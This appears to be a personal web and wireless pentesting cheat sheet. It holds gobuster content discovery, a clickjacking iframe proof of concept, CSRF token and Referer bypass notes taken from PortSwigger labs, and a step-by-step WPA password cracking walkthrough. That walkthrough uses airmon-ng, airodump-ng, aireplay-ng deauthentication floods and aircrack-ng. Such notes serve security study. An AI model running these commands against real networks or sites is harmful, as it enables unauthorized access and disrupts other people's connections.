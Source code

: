 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
	<!DOCTYPE html>
	<html lang="en">
	<head>
	  <meta charset="UTF-8">
	</head>
	<body>
	  <iframe src="https://10x.redoxengine.com/#/organization/8168/development/developer/apiKeys/dd364dd9-7bc3-4e78-aeea-cd400e1ff721/settings" frameborder="0"></iframe>
	</body>
	</html>

# CSRF
## CSRF parameter is not available
---> generate CSRF POC and try

## CSRF parameter available 

-> Change action METHOD (GET OR POST)

-> Remove CSRF parameter
eg. email and CSRF
remove CSRF
now> email

-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
    Make a note of the value of the CSRF token, then drop the request.
2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
    Store the exploit, then click "Deliver to victim" to solve the lab.


->if CSRF key cookies and CSRF token are available

https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

->if header error occure
1) so try remove header
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

2) if header remove not work try changing domain like
refrer: http://google.com
to
http://burpsuit/?google.com
https://portswigger.net/web-security/csrf/lab-referer-validation-broken



# Wifi Password Hacking
	

Step 1:

Put your wireles lan card on monitor mode

 airmon-ng start "wireless lan card name"
=> airmon-ng start wlan0

Step 2:

Capture Traffic with Airodump-ng

airodump-ng "wireless lan card monitor mode"

=> airodump-ng wlan0mon


Step 3:

Focus airodump-ng on one AP on One Channel

 airodump-ng --bssid dummy -c dummy --write WPAcrack wlan0mon

=> airodump-ng --bssid 8C:FD:18:88:79:68 -c 9 --write WPAcrack wlan0mon


Step 4:

in order to capture the encrypted password we need to have the client authenticate against AP.
we do deauth signal to client

 aireplay-ng --deauth 1000 -a bssid wlan0mon

=> aireplay-ng --deauth 1000 -a 8C:FD:18:88:79:68 wlan0mon


Step 5:

Now we have to crack the dump file with aircrack-ng

 aircrack-ng WPAcrack-01.cap -w (localtion of wordlist)
